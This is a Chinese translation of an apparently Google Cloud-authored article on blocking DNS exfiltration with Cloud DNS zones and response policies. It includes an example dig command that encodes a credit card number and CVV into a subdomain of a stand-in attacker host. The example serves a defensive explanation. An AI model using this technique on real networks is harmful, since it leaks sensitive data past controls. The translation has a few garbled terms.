


# 在 GCP 防范 DNS 泄漏

> 原文：<https://medium.com/google-cloud/protecting-from-dns-exfiltration-in-gcp-3c85d597d6ef?source=collection_archive---------0----------------------->


DNS 是每个网络中必不可少的系统，它不仅是互联网的电话簿，也是私有网络的电话簿。但是 DNS 也可以用作数据泄露的途径。我将展示如何在 GCP 配置云 DNS 来帮助抵御这些威胁。

# DNS 安全背景

DNS 的基本操作很容易理解。你查询某项服务的 IP，域名服务器会为你解析。例如，您可以查询“www.google.com”的 IP 地址:

```
$ dig +short [www.google.com](http://www.google.com)
142.250.185.4
```

想象一下，我是一名流氓员工，坐在一个网络中，可以访问信用卡信息等敏感数据。我想将其渗透到我自己的服务器上，但通常公司会使用防火墙来阻止与未知网站的连接，或者使用 DLP 解决方案来防止关键信息的渗透，或者使用其他安全解决方案。然而，我不需要自己连接到我的服务器。由于 DNS 流量通常是允许的，我可以使用 DNS 作为我的出口向量。让我们看看怎么做。

我可以用查询日志为“evil-site.com”运行我自己的名称服务器。从网络内部的系统运行:

```
$ dig **cc**4917484589897107**cvv**123.evil-site.com
```

通过 DNS 查询，我不是直接连接到我的服务器，而是由我公司的 DNS 解析器来完成，而是发送我想要的信息。注意，当然子域不会存在，我不关心答案，我把一个 **c** redit **c** ard 号和它的 **CVV** 泄露到我的服务器上！

> 网站“[www。]evil-site.com 确实存在，但我并不拥有它。这似乎只是一个有趣的演示网站(去访问它:)。我决定使用它，因为它非常方便测试真正解决 DNS 查询，还因为它的名字很吸引人。

显然，这是一个简单的例子，实际的方法更加复杂，DNS 不仅可以用于泄漏数据，还可以作为一种隧道机制，一种下载恶意软件或接受来自*命令&控制* (C2)服务器的命令的隐蔽通道。

有商业解决方案能够检测和阻止这些威胁，提供不同的功能，如机器学习技术来检测 DNS 查询中的数据。然而，成本可能不适合所有的预算。幸运的是，并不总是需要实施高级机制来防范 DNS 威胁。使用阻止列表和允许域列表来控制您的查询流量是常见的做法，我将展示如何使用云 DNS 来做到这一点。

# 云 DNS 操作

云 DNS 通常用于解析部署在 GCP 的私有 DNS 区域，但它也解析公共区域。评估顺序如下:



云 DNS 解析顺序

这显示了解析顺序的摘要，但是如果您不熟悉[云 DNS](https://cloud.google.com/dns/docs/zones/zones-overview) ，我鼓励您在继续阅读之前先阅读它是如何工作的。您将需要它来理解以下部分。

> 我将不再讨论出站服务器策略，因为它有效地禁用了云 DNS，并且很少使用。

一个音符。我将使用云 DNS 配置阻止和允许列表，但是如果客户指向另一个解析器，如谷歌的 DNS 8.8.8.8，他们将逃脱我们的控制。因此，应用 GCP 防火墙规则来阻止 UDP 和 TCP*端口 53 上的所有传出 DNS 流量是很重要的！这不会影响云 DNS，并将使它成为唯一可用的解析器。*

# 道路封闭

有几种方法可以创建阻止列表来阻止不需要的 DNS 查询。

## 使用私有区域来阻止

让我们配置第一个阻止列表。这将是非常简单的，我想阻止只有一个域名，“邪恶网站. com”。就像为它创建一个私有区域一样简单。除了自动创建的 NS 和 SOA 记录之外，它将为空:


阻止带有私有区域的站点

现在，对“evil-site.com”或其子域名的任何查询都将在这个区域得到回答。特别是，如果我像以前一样尝试泄漏数据，它将不会从内部网络中传出:

```
$ dig cc4917484589897107cvv123.evil-site.com
...
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 41420
```

## 使用转发区域来阻止

如果您想部署自己的服务器来处理可疑的查询，您可以创建一个转发区域，并将所有这些查询转发给它。假设您的内部名称服务器正在侦听 10.132.0.250:


阻止带有转发区域的站点

这样，正常的 DNS 流量将由云 DNS 高效处理，您只需担心不需要的查询，这应该是例外。

如果服务器只记录有问题的查询供 SIEM 稍后分析，我不建议您采用这种方法。您可以启用云 DNS 日志记录，这将为您提供更多信息，否则您可能会丢失这些信息，比如发送查询的虚拟机。例如，对于之前的私有区域，查看您将获得的信息:


云日志中 DNS 查询的日志

你可以识别诸如查询、发送查询的机器(*内幕*)、它的源 IP 或者它所在的项目。如果愿意，您可以通过 Pub/Sub 将这些日志发送到 SIEM，或者通过 Webhooks 或 Slack 通道触发基于日志的警报。有多种选择。

## 使用响应策略规则阻止

我们可以用私有或转发区域阻止不需要的 DNS 流量，只需为每个坏域创建一个区域。使用响应策略，机制更简单，您将得到看起来更像(阻止)列表的东西。

GCP 没有实现完整的 [RPZ 规范](https://datatracker.ietf.org/doc/html/draft-vixie-dnsop-dns-rpz)。基本上，响应策略包含以 DNS 名称为关键字的规则。如果符合规则，它们可能会修改查询结果，或者允许查询失败。这次，我将创建一个包含两个域的阻止列表，让我向您展示一下它的样子:


带有响应策略规则的阻止列表


响应策略规则的详细信息

我为每个区域添加了规则(以及带有“* .”的子域))CNAME 唱片公司瞄准了一个黑洞，并给它分配了一个假 IP。一个 A 记录不能满足所有可能的查询类型，但是有了 CNAME，我涵盖了所有的可能性。

没有必要创建黑洞记录来使查询失败，例如，您可以将它指向蜜罐服务器，以最终从攻击者那里捕获更多信息。

# 抱歉，你不在名单上

有时创建允许列表比阻止列表更方便。假设您希望只允许访问某些网站，如供应商的软件更新系统或您的容器注册表，并阻止其他所有内容。我们来看看怎么做。

## 使用专用和转发区域来允许

首先，我将创建一个专用区域来阻止所有指定“.”的访问，根域:


用私有区域阻止所有 DNS

现在，我将为我希望允许的站点添加指向外部解析器的转发区域:



允许访问特定站点

“gcr.io”的 DNS 查询将与此区域匹配，因为它比根域更具体(最长后缀匹配)。记得我提到过你应该通过防火墙规则阻止对其他解析器的访问，这仍然有效。这里，连接到 8.8.8.8 的不是虚拟机，而是云 DNS。

## 使用响应策略规则来允许

同样，对于响应策略，您会得到更类似于列表的东西。以下带有响应策略规则的配置可以做到这一点:


带有响应策略规则的允许列表


响应策略规则的详细信息

在黑名单的例子中，我创建了一个黑洞，其他规则通过 CNAME 指向它。有一个通配符规则来捕捉所有域，但是因为我为“gcr.io”域(允许的站点)添加了一个绕过规则，所以现在通配符不适用于“*.gcr.io”和“*”。io 域。因此，至少对' * '有一个规则。需要“io”。

# 问题的变体

我确信现在你可以自己创造一些我所提出的解决方案的变体。例如，使用转发区域阻止对互联网的所有访问，或者为多项目部署增加对等区域的使用。但是我将描述一些不太明显的方面。

## 谷歌 API

大多数 GCP 服务，如云日志、BigQuery 或 Pub/Sub 运行在“googleapis.com”的子域中，阻止它们可能会破坏 GCP。这些 API 是公开的，所以如果你的安全策略阻止了互联网，你可以用 CNAME 重定向到“private . Google API . com ”,这样就可以对大多数谷歌 API 和其他服务进行内部访问。点击这里你可以找到更多信息。

## 查询的来源

如果您对发起查询的虚拟机感兴趣，以便您可以进一步调查发生了什么，您可以从云 DNS 日志中获得它。然而，如果您想要的是根据发送请求的客户端修改 DNS 解析，那就没那么容易了。

*   云 DNS 的粒度是网络，因此网络中的所有虚拟机(或与之对等的 DNS)将获得相同的分辨率。
*   如果您将查询转发到您自己的名称服务器，它会将云 DNS 视为源(范围为 35.199.192.0/19 的 IP。)，而不是 VM。
*   我们不在响应策略中实现“[客户端 IP 地址](https://tools.ietf.org/id/draft-vixie-dnsop-dns-rpz-00.html#client-ip-trigger)”RPZ 触发器。
*   我们没有在云 DNS 中实现 [EDNS 客户端子网](https://datatracker.ietf.org/doc/html/rfc7871) (ECS)选项。

实施 RPZ 触发器将允许保持对云 DNS 的控制。相反，使用 ECS，客户的名称服务器可以实施这种控制。嗯，云在不断进化，让我们拭目以待；)

## 多，点

HTTPS 上的 DNS([DoH](https://datatracker.ietf.org/doc/html/rfc8484)或 TLS ( [DoT](https://datatracker.ietf.org/doc/html/rfc7858) )是在加密通道上执行 DNS 解析的两种协议。这意味着你也需要担心他们。

两种协议都使用 TLS，但有所不同。DoT 通过 TCP 端口 853 使用 TLS。这意味着如果您愿意，可以直接阻止它。但是，DoH 在端口 443 上使用广泛使用的 HTTPS 协议，因此它看起来像其他 HTTPS 流量。让我们看一个例子:

```
$ curl '[https://dns.google.com/resolve?name=example.com&type=A'](https://dns.google.com/resolve?name=example.com&type=A')
{"Status":0,"TC":false,"RD":true,"RA":true,"AD":true,"CD":false,"Question":[{"name":"example.com.","type":1}],"Answer":[{"name":"example.com.","type":1,"TTL":20661,"data":"93.184.216.34"}]}
```

请注意，在这种情况下，阻止 DNS 解析(例如“dns.google.com ”)并不能解决问题。渗透不会发生在这一步，攻击者可以简单地依靠服务的 IP(如 8.8.8.8)来启动 HTTPS 连接，看起来像正常的 web 流量。所以基本上这就把一个 DNS 安全问题转化成了一个 web 安全问题。假设您已经在保护 web 流量，您应该将这一点结合到您的检测逻辑中。

## 饲料

管理的区域、记录和规则都可以通过 API 创建。从一个域文本文件直接输入云域名系统，并保持每隔几分钟更新一次，这将是非常方便的。然而，没有内置的机制来馈送 DNS。这将是一个有趣的特性。

# 结论

DNS 渗透技术对组织来说是真正的威胁。通过上述方法，您可以开始在 GCP 使用云 DNS 来帮助抵御这些威胁并改善您的安全状况。